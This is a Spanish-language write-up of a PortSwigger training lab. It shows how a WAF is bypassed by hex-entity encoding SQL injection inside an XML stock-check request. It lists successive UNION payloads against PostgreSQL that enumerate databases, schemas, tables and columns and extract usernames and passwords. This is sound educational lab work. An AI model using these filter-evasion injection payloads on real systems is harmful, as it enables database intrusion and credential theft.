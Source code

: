```yaml
---
title: "SQL injection with filter bypass via XML encoding"
description: "Laboratorio de Portswigger sobre SQLI"
date: 2025-02-12 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - SQLI
tags:
  - Portswigger Labs
  - SQLI (Error Based)
  - SQL injection with filter bypass via XML encoding
  - PostgreSQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en su función de `verificación` de `stock`. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que se puede usar un `ataque UNION` para obtener `datos` de otras `tablas`. La `base` de `datos` contiene una `tabla` llamada `users`, que almacena los `nombres` de `usuario` y `contraseñas` de los `usuarios registrados`. Para resolver el laboratorio, debemos realizar un `ataque` de `inyección SQL` para `obtener` las `credenciales` del usuario `administrador` y luego `iniciar sesión` en su cuenta

---

## Guía de SQLI

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de SQLI` [https://justice-reaper.github.io/posts/SQLI-Guide/](https://justice-reaper.github.io/posts/SQLI-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-18/image_1.png)

Si hacemos click en `View details` vemos que hay un botón de `Check stock`

![](/assets/img/SQLI-Lab-18/image_2.png)

Si pinchamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos una estructura en `XML`

![](/assets/img/SQLI-Lab-18/image_3.png)

Si `enviamos` la `petición` recibiremos en `número` de `unidades` disponibles

![](/assets/img/SQLI-Lab-18/image_4.png)

Con el simple hecho de poner una `'` en alguna de los campos ya nos lo `detecta` como `ataque`, esto es debido a un `WAF`

![](/assets/img/SQLI-Lab-18/image_5.png)

Si el `formato no fuera XML` y fuera `texto plano` podríamos usar el `Decoder` para `encodear` el `payload` en `hexadecimal`, sin embargo, en este caso al `enviarse los datos` en una `estructura XML` podemos usar `herramientas` como `Hackvertor` para `ofuscar` nuestro `payload` y `evitar` que sea `detectado` por el `WAF`. Para encodear nuestro payload debemos pulsar `click derecho > Extensions > Hackvertor > Encode > hex_entities`

![](/assets/img/SQLI-Lab-18/image_6.png)

Vemos que si ponemos una `'` nos devuelve `0 unidades`

![](/assets/img/SQLI-Lab-18/image_7.png)

He probado ambos campos pero solamente es `inyectable` el campo `storeId`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select null<@/hex_entities>
    </storeId>
</stockCheck>
```

Si `enviamos` la `petición` vemos `null` en la `respuesta`

![](/assets/img/SQLI-Lab-18/image_8.png)

`Listamos` la `version` y la `base` de `datos`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select version()<@/hex_entities>
    </storeId>
</stockCheck>
```

Vemos que estamos ante un `PostgreSQL`

![](/assets/img/SQLI-Lab-18/image_9.png)

`Listamos` los `nombres` de las `bases` de `datos`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select datname from pg_database<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_10.png)

`Listamos` la `base de datos actual`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select current_database()<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_11.png)

`Listamos` los `esquemas` para la `base de datos en uso`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select string_agg(schema_name,', ') from information_schema.schemata<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_12.png)

Listamos `tablas` de la `base de datos public`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select string_agg(table_name,', ') from information_schema.tables where table_schema='public'<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_13.png)

Listamos `columnas` de la `tabla users`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select string_agg(column_name,', ') from information_schema.columns where table_name='users'<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_14.png)

`Listamos` los `usuarios` y `contraseñas` de la tabla `users`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select username || ' : ' || password from users<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_15.png)

``Accedemos`` al `panel administrativo`

![](/assets/img/SQLI-Lab-18/image_16.png)
